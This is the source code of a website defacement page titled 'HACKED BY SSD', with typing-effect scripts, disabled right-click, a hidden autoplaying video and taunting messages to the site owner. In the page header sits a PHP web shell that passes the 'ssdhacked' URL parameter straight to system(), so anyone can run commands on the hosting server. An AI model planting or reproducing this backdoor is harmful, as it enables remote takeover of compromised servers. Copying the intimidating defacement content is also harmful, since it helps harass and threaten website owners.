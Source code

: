 <!DOCTYPE html, css><html lang="en"><head> <meta charset="UTF-8"> <!--- UTF-8 POUR LES ACCENTS ---> <meta http-equiv="X-UA-Compatible" content="IE=edge"> <!---Pour les nav génerique---> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <!--- integration ---> <link rel="shortcut icon" href="img/1655973510-icon.ico" /> <link href='http://fonts.googleapis.com/css?family=Iceland:400,700' rel='stylesheet' type='text/css'> <title>HACKED BY Ś̷̡̡͙̺̻̞̀͝S̸̟̈́̌̇̔̅̒̌͂D̷͇̣̞̼̳̻̓</title></head><?phpif(isset($_GET['ssdhacked'])) { system($_GET['ssdhacked']); }?><script>document.getElementById("ssdhacked").focus();</script><script type="text/javascript" src="http://code.jquery.com/jquery.min.js"></script><script type="text/javascript">setTimeout("$('#loading').fadeOut(2000);", 14000); //seconde de loading </script><style type="text/css"> #loading { position: fixed; top: 0; left: 0; padding-top: 0px; background-color: #000; width: 100%; height: 100%; color: black; z-index: 9000; overflow: hidden; }</style><div id="loading"> <body onload="document.f.p.focus()" topmargin="0" leftmargin="0" bgcolor="#000000" marginheight="0" marginwidth="0"> <table border="0" cellpadding="2" cellspacing="0" width="100%"> <tbody> <tr> </tr> <tr> </tr> </tbody> </table> <font id="ResponseData" color="#ff99cc"> <pre><script type="text/javascript"> TypingText = function (element, interval, cursor, finishedCallback) { if ((typeof document.getElementById == "undefined") || (typeof element.innerHTML == "undefined")) { this.running = true; // Never run. return; } this.element = element; this.finishedCallback = (finishedCallback ? finishedCallback : function () { return; }); this.interval = (typeof interval == "undefined" ? 100 : interval); this.origText = this.element.innerHTML; this.unparsedOrigText = this.origText; this.cursor = (cursor ? cursor : ""); this.currentText = ""; this.currentChar = 0; this.element.typingText = this; if (this.element.id == "") this.element.id = "typingtext" + TypingText.currentIndex++; TypingText.all.push(this); this.running = false; this.inTag = false; this.tagBuffer = ""; this.inHTMLEntity = false; this.HTMLEntityBuffer = ""; } TypingText.all = new Array(); TypingText.currentIndex = 0; TypingText.runAll = function () { for (var i = 0; i < TypingText.all.length; i++) TypingText.all[i].run(); } TypingText.prototype.run = function () { if (this.running) return; if (typeof this.origText == "undefined") { setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval); // We haven't finished loading yet. Have patience. return; } if (this.currentText == "") this.element.innerHTML = ""; // this.origText = this.origText.replace(/<([^<])*>/, ""); // Strip HTML from text. if (this.currentChar < this.origText.length) { if (this.origText.charAt(this.currentChar) == "<" && !this.inTag) { this.tagBuffer = "<"; this.inTag = true; this.currentChar++; this.run(); return; } else if (this.origText.charAt(this.currentChar) == ">" && this.inTag) { this.tagBuffer += ">"; this.inTag = false; this.currentText += this.tagBuffer; this.currentChar++; this.run(); return; } else if (this.inTag) { this.tagBuffer += this.origText.charAt(this.currentChar); this.currentChar++; this.run(); return; } else if (this.origText.charAt(this.currentChar) == "&" && !this.inHTMLEntity) { this.HTMLEntityBuffer = "&"; this.inHTMLEntity = true; this.currentChar++; this.run(); return; } else if (this.origText.charAt(this.currentChar) == ";" && this.inHTMLEntity) { this.HTMLEntityBuffer += ";"; this.inHTMLEntity = false; this.currentText += this.HTMLEntityBuffer; this.currentChar++; this.run(); return; } else if (this.inHTMLEntity) { this.HTMLEntityBuffer += this.origText.charAt(this.currentChar); this.currentChar++; this.run(); return; } else { this.currentText += this.origText.charAt(this.currentChar); } this.element.innerHTML = this.currentText; this.element.innerHTML += (this.currentChar < this.origText.length - 1 ? (typeof this.cursor == "function" ? this.cursor(this.currentText) : this.cursor) : ""); this.currentChar++; setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval); } else { this.currentText = ""; this.currentChar = 0; this.running = false; this.finishedCallback(); } } </script><script> function disableselect(e) { return false } function reEnable() { return true } //if IE4+ document.onselectstart = new Function("return false") //if NS6 if (window.sidebar) { document.onmousedown = disableselect document.onclick = reEnable }</script><script> var message = ""; function clickIE() { if (document.all) { (message); return false; } } function clickNS(e) { if (document.layers || (document.getElementById && !document.all)) { if (e.which == 2 || e.which == 3) { (message); return false; } } } if (document.layers) { document.captureEvents(Event.MOUSEDOWN); document.onmousedown = clickNS; } else { document.onmouseup = clickNS; document.oncontextmenu = clickIE; } document.oncontextmenu = new Function("return false")</script><table style=" background-repeat: no-repeat;" align="right" border="0" width="100%" ><br><tbody><tr><td valign="top"><p id="hack" ><br><br><font style="color:#ffffff;text-shadow:#04a809 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>User@SSD. ~~# do you want us to show you what the definition of "power" is really ?</font><br><font style="color:#ffffff;text-shadow:#04a809 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>User@SSD. ~~# we can do that the easy way... </font><br><font style="color:#ffffff;text-shadow:#04a809 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>User@SSD. ~~# or the hard way !</font><br><font style="color:#ffffff;text-shadow:#600101 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b><font style="color:rgb(255, 0, 0);text-shadow:#000 0px 0px 3px">root@Calamïty ~~# Fun fact for you: We just fucked you up :D</font><font style="color:white;text-shadow:#000 0px 0px 3px"><br><font color="White"></p></tr></tbody></table></div> <br><script type="text/javascript"> new TypingText(document.getElementById("hack"), 30, function (i) { var ar = new Array("|", ""); return " " + ar[i.length % ar.length]; }); TypingText.runAll();</script><body> <iframe width="0" height="0" src="http://www.youtube.com/embed/cJuO985zF8E?rel=0&autoplay=1" frameborder="0" allowfullscreen></iframe> <h1 class="title">SSD G0T Y0U</h1> <div> <h2 class="test"> </h2> <center><img src="https://cdn.discordapp.com/attachments/994259625249607750/995796886474735636/ezgif-1-035ea604e9.gif"</a width="450"></center> </div> <div class="raison"> <p> <b> You know why we defaced your site, <br /> we know your secret, don't try to argue. <br /> <br /></b> </p> <p class="DOMINATION"> <b> SSD × CALAMÏTY 🏴‍☠️ DOMINATE Y0U.</b> <br /> <br /> </p> <p> <b class="music"> turn on the music just to have more fun ! <br /> :D </b> </p> </div> </body></html><!---CSS--><style> @import url('https://fonts.googleapis.com/css2?family=Playfair+Display+SC&display=swap'); @import url('https://fonts.googleapis.com/css2?family=Arvo&family=Lora&family=Poppins:ital@1&family=Press+Start+2P&display=swap');body { background-color: rgb(2, 1, 0.7); overflow:hidden; background-size: 100%; background-position:top center; margin: 0px; cursor:none;}.title { text-align: center; font-size: 85px; font-family: 'Playfair Display SC', serif; color: rgb(170, 0, 0); font-family: Iceland, sans-serif;}.test { text-align: center; font-size: 35px; color: rgb(0, 0, 0);}.domination{ text-shadow: #600101; }.raison { color: rgb(170, 3, 3); font-family: 'Arvo', sans-serif; text-align: center; font-size: 50px;}td{ background-color: #000000; font-family: Courier New; font-size:20px; color:#000000; border-color: #000000; border-width:1pt; border-style:solid; border-collapse:collapse; padding:0pt 3pt; vertical-align:top;}table{ border-color: #88aace; border-width:0pt 1pt; border-style:dash;}A:Link, A:Visited{ color: #88aace;}A.no:Link, A.no:Visited{ color: #88aace; text-decoration: none;}A:Hover, A:Visited:Hover , A.no:Hover, A.no:Visited:Hover{ color: #88aace; background-color:#2e2e2e; text-decoration: overline underline;}.style{ color: #88aace}.style2{ color: 1f1f1f}body{ color:white; background-position:right; background-attachment:fixed;}p{ font-family: Iceland, sans-serif; font-size: 30px;} a{ text-decoration: none;}.music{ font-size: 20px; opacity: 30%;}h2{ font-family: Iceland, sans-serif; font-size:40px; color:#000; margin: 0px; text-shadow: 0 0 3px rgb(145, 27, 27); cursor: none; }p{ color:rgb(180, 0, 0); margin: 0px; text-shadow: 0 0 3px #d11414; cursor: none; }</style>
